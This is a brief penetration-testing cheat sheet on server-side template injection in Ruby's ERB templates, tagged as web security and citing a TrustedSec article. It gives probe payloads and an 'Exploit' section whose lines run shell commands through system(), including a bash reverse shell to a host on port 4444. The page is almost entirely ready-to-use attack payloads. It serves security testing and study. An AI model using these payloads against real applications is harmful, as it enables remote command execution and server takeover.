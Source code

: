 ```yaml
---
title: ERB SSTI
description: ERB may be vulnerable to SSTI.
tags:
    - Web
refs:
    - https://trustedsec.com/blog/rubyerb-template-injection
date: 2024-04-13
draft: false
---
```


## Payloads

Try the following payloads on URL path, params, input, etc.

```bash
<%= 7*7 %>
<%= user.username %>
<%= system("whoami"); %>
```

<br />

## Exploit

If the above payloads affect responses, we can inject arbitrary code as below:

```bash
<%= system("ping -c 1 10.0.0.1"); %>

# Reverse Shell
<%= system("bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"); %>
```